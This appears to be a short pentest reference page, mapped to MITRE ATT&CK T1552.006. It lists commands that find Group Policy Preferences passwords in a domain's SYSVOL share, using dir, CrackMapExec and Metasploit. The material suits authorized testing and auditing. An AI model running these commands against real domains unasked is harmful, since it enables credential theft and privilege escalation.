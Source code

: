 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1552.006
---
```


# Group Policy Preferences

### Description

Unsecured credentials in Group Policy Preferences (GPP) can be an easy way to obtain credentials and escalate privileges. GPP's are stored in SYSVOL on domain controllers. However, the real kicker is that any domain user can view the SYSVOL share, obtain the password, and decrypt it within seconds.

### Tactics

#### Enumerating Credentials Directly on the SYSVOL Share

```bash
dir /s * .xml
```

#### Enumerating Credentials Remotely from SYSVOL

```bash
dir /s \\[FQN]\SYSVOL\[FQDN\ | more
```

#### Enumerating Credentials using CrackMapExec

```bash
crackmapexec smb $ip -u $username -p $password -M gpp_password
```

#### Enumerating Credentials using Metasploit

```bash
use auxiliary/scanner/smb/smb_enum_gpp
set rhosts [IP_Addresses]
set SMBUser [USERNAME]
set SMBPass [PASSWORD]
```
